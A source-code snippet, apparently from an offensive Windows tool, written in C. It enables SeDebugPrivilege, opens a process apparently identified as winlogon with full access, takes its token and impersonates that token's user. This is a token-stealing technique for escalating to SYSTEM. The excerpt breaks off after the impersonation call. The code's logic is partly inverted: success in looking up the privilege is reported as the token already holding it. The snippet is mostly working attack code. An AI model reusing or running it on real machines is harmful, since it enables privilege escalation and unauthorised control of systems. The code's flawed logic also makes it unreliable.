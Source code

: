 ```c
        HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

        if (currentProc) {
            HANDLE TokenHandle = NULL;
            BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
            if (hProcessToken) {
                BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

                if (!checkToken) {
                    printf("[+] Current Process token Already Include SeDebugPrivilege \n");
                }
                else
                {
                    TOKEN_PRIVILEGES tokenPrivs;

                    tokenPrivs.PrivilegeCount = 1;
                    tokenPrivs.Privileges[0].Luid = luid;
                    tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

                    BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);
                    
                    if (adjustToken != 0)
                    {
                        printf("[+] Added SeDebugPrivilege to the current process token: %lx \n", adjustToken);
                    }
                }
                CloseHandle(TokenHandle);
            }
        }
        CloseHandle(currentProc);

        HANDLE hProcess = NULL;
        HANDLE TokenHandle = NULL;
        HANDLE NewToken = NULL;
        BOOL OpenToken;
        BOOL Impersonate;
        BOOL Duplicate;

        hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processwinloginPid);

        if (!hProcess)
        {
            printf("[-] Faild To Obtain a Handle To The Target PID \n");
        }
        printf("[+] Obtained Handle To The Target PID %lx\n", hProcess);

        OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

        if (!OpenToken)
        {
            printf("[-] Faild To Obtain Handle to The TOKEN %d\n", GetLastError());
        }
        printf("[+] Obtained A Handle To The Target Token %lx \n", OpenToken);

        Impersonate = ImpersonateLoggedOnUser(TokenHandle);
        if (!Impersonate)
        {
            printf("[-] Faild To Impersonate The TOKEN User \n");
        }
```